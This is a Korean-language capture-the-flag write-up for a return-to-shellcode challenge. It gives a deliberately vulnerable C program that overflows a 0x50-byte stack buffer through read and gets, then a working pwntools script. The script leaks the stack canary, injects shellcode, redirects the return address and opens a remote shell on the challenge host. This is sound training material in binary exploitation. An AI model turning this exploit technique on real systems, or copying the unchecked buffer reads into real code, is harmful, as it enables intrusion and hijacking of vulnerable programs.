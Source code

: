 ```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

# 분석

Stack canary를 얻어내 stack canary를 변조하지 않고 return address를 `buf`로 변조하고, `buf`에는 쉘코드를 삽입하여 쉘을 탈취하면 flag를 얻을 수 있다.

# 취약점

`buf`는 길이 `0x50`의 `char` 배열임에도 `read(0, buf, 0x100);`에서 입력크기 제한이 `0x100`으로, 공격하기에 충분히 큰 크기를 가진다.

# 공격

`buf`와 `$rbp`의 거리를 활용하여 stack canary `0x7`바이트의 정보를 얻어내고, 그 정보를 바탕으로 `payload`를 구성하여 쉘을 탈취한다.

```python
# Name: r2s.py

from pwn import *

context.arch = 'amd64'
context.os = 'linux'
# context.log_level = "debug"

HOST = "host3.dreamhack.games"
PORT = 18007 # The given port

conn = remote(HOST, PORT)
# conn = process('./r2s')

conn.recvuntil(b'Address of the buf: ')
buf_address = int(conn.recvline(), base=16)
conn.recvuntil(b'Distance between buf and $rbp: ')
size = int(conn.recvline()) - 8
conn.sendlineafter(b'Input: ', b'A' * size)
conn.recvuntil(b'Your input is')
conn.recvuntil(b'\x0a')
canary = conn.recv(7)
payload = asm(shellcraft.amd64.linux.sh())
payload += asm('nop') * (size - len(payload))
payload += b'\x00' + canary + b'A' * 8 + p64(buf_address)
conn.sendlineafter(b'Input: ', payload)
conn.interactive()
```